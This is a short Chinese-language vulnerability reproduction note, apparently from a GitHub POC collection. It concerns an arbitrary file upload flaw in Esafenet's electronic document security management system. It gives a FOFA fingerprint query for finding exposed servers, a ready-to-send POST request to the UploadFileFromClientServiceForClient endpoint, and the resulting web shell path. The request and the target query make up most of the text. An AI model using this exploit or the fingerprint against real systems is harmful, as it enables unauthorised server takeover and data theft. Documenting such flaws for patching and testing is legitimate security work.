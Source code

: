 # 亿赛通 电子文档安全管理系统 UploadFileFromClientServiceForClient 任意文件上传漏洞

## 漏洞描述

亿赛通 电子文档安全管理系统 UploadFileFromClientServiceForClient 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件到服务器中，获取主机权限。

参考链接：

- https://github.com/di0xide-U/YSTupload/blob/main/exp.md

## 漏洞影响

亿赛通 电子文档安全管理系统

## 网络测绘

```
app="亿赛通-电子文档安全管理系统"
```

## 漏洞复现

登录页面

![image-20230828111346925](images/image-20230828111346925.png)

验证POC

```
POST /CDGServer3/UploadFileFromClientServiceForClient?AFMALANMJCEOENIBDJMKFHBANGEPKHNOFJBMIFJPFNKFOKHJNMLCOIDDJGNEIPOLOKGAFAFJHDEJPHEPLFJHDGPBNELNFIICGFNGEOEFBKCDDCGJEPIKFHJFAOOHJEPNNCLFHDAFDNCGBAEELJFFHABJPDPIEEMIBOECDMDLEPBJGBGCGLEMBDFAGOGM HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Content-Length: 1

Test
```

![image-20230828111455826](images/image-20230828111455826.png)

```
Shell访问地址：https://your-ip/tttT.jsp
```

